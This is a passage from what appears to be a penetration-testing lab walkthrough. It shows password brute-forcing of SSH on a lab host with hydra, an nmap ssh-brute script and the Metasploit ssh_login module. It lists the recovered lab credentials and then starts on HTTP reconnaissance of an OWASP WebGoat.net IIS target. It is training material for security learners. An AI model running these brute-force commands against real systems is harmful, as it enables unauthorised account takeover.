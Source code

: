 #### Dictionary attack

```bash
john@kali> ip a
john@kali> ping 192.254.198.3
john@kali> nmap 192.254.198.3

# 1. Find the password of user “student” using hydra.
john@kali> hydra -l student -P /usr/share/wordlists/rockyou.txt.gz 192.254.198.3 ssh

# 2. Find the password of user “administrator” use appropriate Nmap scripts
#    with password dictionary: /usr/share/nmap/nselib/data/passwords.lst
john@kali> echo 'administator' > user.txt
john@kali> nmap 192.254.198.3 -p 22 --script ssh-brute --script-args passdb=/usr/share/nmap/nselib/data/passwords.lst,userdb=user.txt

# 3. Find the password of user “root” using ssh_login Metasploit module
#    with userpass dictionary: /usr/share/wordlists/metasploit/root_userpass.txt
john@kali> msfconsole
msf5> use scanner/ssh/ssh_login
msf5> set rhosts 192.254.198.3
msf5> set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
msf5> set verbose true
msf5> set stop_on_success true
msf5> run

# 4. What is the message of the day? (Printed after the user logs in to the SSH server).
john@kali> ssh root@192.254.198.3
```

Credentials : `student:friend` `administrator:sunshine` `root:attack`

### HTTP

HTTP is hosting website and websites are a big part of the Internet.

#### IIS

```bash
john@kali> ip a
john@kali> nmap 10.3.23.59 -sV
john@kali> whatweb 10.3.23.59
```

The HTTP service is running on port 80 and the website is **webgoat.net**. It's a purposefully vulnerable application website built by OWASP for teaching, training and learning. On this website, there are `Microsoft IIS 10.0` and `X-XSS-Protection 0`.

1. `http`

It shows up information about the website in its response.

```bash
john@kali> http 10.3.17.179
```
